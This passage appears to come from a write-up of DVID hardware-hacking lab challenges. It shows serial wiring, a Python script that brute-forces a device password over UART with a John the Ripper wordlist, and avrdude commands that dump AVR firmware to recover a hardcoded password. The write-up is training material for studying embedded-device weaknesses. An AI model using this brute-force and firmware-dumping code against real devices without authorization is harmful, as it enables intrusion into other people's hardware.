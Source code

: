 ```bash
VCC <---> VCC
RX  <---> TX
TX  <---> RX
GND <---> GND
```

Using the code from the last challenge we can write a simple script to interact with the device /dev/ttyUSB0. We will iterate over the john wordlist to bruteforce the service until it responds with "ok" instead of "ko".

```python
import serial, time
port = "/dev/ttyUSB0"
baud = 9600
s = serial.Serial(port)
s.baudrate = baud

with open('/usr/share/john/password.lst', 'r') as f:
    lines = f.readlines()

    for pwd in lines:
        if not "#" in pwd:
            res = s.write(pwd.strip())
            print("Pwd: {}".format(pwd.strip()))
            print("Sent {} bytes".format(res))
            print("Result: {}".format(s.readline()))
            time.sleep(3)
```

And we got it ! Obviously the password is hidden, real one is available [here](https://www.youtube.com/watch?v=SCaAetNzXIc) :D

![DefaultPasswd]({{ site.baseurl }}/images/DVID/defaultpasswd.jpg "DefaultPasswd"){: .center-image }


### Firmware - Hardcoded Password 

> A confidential message is stored on the firmware but protected by a password.

We push the firmware with  `sudo avrdude -c usbasp -p m328p -U flash:w:hardcodedPassword.ino.arduino_standard.hex`.

Now we will dump the previously sent firmware, we could just analyse the **hardcodedPassword.ino.arduino_standard.hex** file but it is not realistic.

```python
$ sudo avrdude -c usbasp -p m328p -F -U flash:r:dump.hex:i
avrdude: warning: cannot set sck period. please check for usbasp firmware update.
avrdude: AVR device initialized and ready to accept instructions
Reading | ################################################## | 100% 0.00s

avrdude: Device signature = 0x1e950f (probably m328p)
avrdude: reading flash memory:
Reading | ################################################## | 100% 17.15s

avrdude: writing output file "dump.hex"
avrdude: safemode: Fuses OK (E:FF, H:D9, L:E2)
avrdude done.  Thank you.
```

